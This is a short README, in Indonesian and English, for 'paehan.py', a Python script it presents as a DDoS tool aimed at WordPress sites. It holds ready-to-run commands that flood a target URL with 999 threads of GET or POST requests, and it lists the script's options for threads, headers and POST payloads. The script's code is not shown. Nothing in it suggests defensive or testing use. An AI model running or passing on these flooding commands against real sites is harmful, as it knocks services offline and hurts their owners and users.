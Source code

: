 # paehan.py
tools DDOS khusus untuk wordpress, basic python:


# Contoh
999 threads sends GET requests:

```bash
python paehan.py -t 999 -g 'https://targeted.site.com'
```

999 threads sends POST requests with json data:

```bash
python paehan.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# gunakan
gunakan: paehan.py [-h] [-g G] [-p P] [-d D] [-ah AH] [-t T]

optional arguments:

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  
  -t        Specify number of threads to be used
